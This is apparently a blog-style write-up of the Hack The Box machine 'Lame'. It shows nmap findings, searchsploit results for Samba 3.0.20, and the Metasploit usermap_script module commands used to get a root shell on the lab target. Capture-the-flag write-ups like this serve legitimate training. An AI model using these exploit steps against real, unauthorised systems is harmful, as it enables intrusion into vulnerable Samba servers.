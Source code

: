 # lame

This box was a very simple box that infact has the most solves in hack the box proving its difficulty that only involved a
simple search for exploits and then we use a metasploit module and get a shell.

>skills involved in this box
- enumeration
- metasploit

# USER & ROOT

After running our nmap scan we see that there is port 21 open and 445 running samba.

Trying to exploit the ftp service via a backdoor with `vsftpd 2.3.4` but it turned out to be a loop hole.

However the scan shows the samba version is `smbd 3.0.20-Debian` so we look for an exploit using searchsploit.
```
searchsploit samba 3.0.20
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                           | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                            | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                            | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                    | linux_x86/dos/36741.py
--------------------------------------------------------------------------------- -------------------------------
```
We take a look at teh metasploit module:
```
use exploit/multi/samba/usermap_script
```
All we have to do is `set RHOSTS 10.10.10.3` for configuring the options and then we `run` the exploit.

After this we get a shell.

We simply run a few enumeration commands and find the user flag in `/home/makis/user.txt`

The root flag is in `/root/root.txt` like always.

Thanks for reading hope it was worth the read.

